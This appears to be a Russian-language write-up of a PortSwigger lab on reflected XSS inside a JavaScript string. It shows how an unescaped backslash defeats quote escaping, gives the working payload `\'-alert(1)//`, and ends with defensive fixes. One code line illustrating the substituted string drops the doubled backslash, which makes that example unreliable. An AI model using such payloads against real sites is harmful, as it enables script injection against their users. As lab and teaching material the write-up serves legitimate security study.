



## Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
**Платформа:** PortSwigger Web Security Academy  
**Категория:** Cross-Site Scripting (XSS)  
**Сложность:** Practitioner  
**Дата:** 2025-07-08  

---

## TL;DR

Ввод отражается внутри JS-строки. Угловые скобки и двойные кавычки
экранированы, одиночная кавычка экранируется через `\'`.
Но обратный слэш не экранируется — это позволяет нейтрализовать
экранирование и выйти из строки через `\'-alert(1)//`.

## Описание уязвимости

Ввод пользователя попадает внутрь JavaScript-строки:

```javascript
var searchQuery = 'ВВОД';
```

Фильтр экранирует:
- `<` и `>` → HTML-кодирование
- `"` → HTML-кодирование
- `'` → `\'`

Но `\` не экранируется. Это критическая недоработка — атакующий
может вставить свой `\` перед защитным `\`, и они взаимно
уничтожатся.

---

## Разведка

### Шаг 1 — Находим точку отражения
Ввела случайную строку `abc123` в поиск.
Через DevTools (F12 → Sources) нашла где ввод отражается в коде:

```javascript
var searchQuery = 'abc123';
```



### Шаг 2 — Проверяем одиночную кавычку
Ввела `test'payload`:

```javascript
var searchQuery = 'test\'payload';
```

Одиночная кавычка экранирована → выйти из строки напрямую нельзя.

### Шаг 3 — Проверяем обратный слэш
Ввела `test\payload`:

```javascript
var searchQuery = 'test\payload';
```

Обратный слэш не экранируется → это и есть уязвимость.

---

## Эксплуатация

### Финальный payload
```
\'-alert(1)//
```

Что происходит в коде после подстановки:

```javascript
var searchQuery = '\'- alert(1)//';
```



Разбор по символам:
```
\   — наш обратный слэш нейтрализует защитный \'
'   — одиночная кавычка закрывает строку
-   — оператор (соединяет выражения)
alert(1) — выполняется
//  — комментарий, отрезает остаток строки
```
---

### Результат

При открытии URL с payload сработал `alert(1)`.



---

## Итог

Экранирование одного символа без экранирования другого создаёт
уязвимость. Фильтр защищал `'` но забыл про `\` — атакующий
использовал `\` чтобы сломать саму защиту.

---

## Защита

```javascript
// Плохо — ручное экранирование только одного символа:
input = input.replace("'", "\\'")  // недостаточно

// Хорошо — использовать JSON.stringify для безопасной
// вставки данных в JS-контекст:
var searchQuery = {{ user_input | tojson }};
// tojson экранирует ВСЕ опасные символы включая \

// Или через textContent вместо вставки в JS:
document.getElementById('query').textContent = userInput;
```

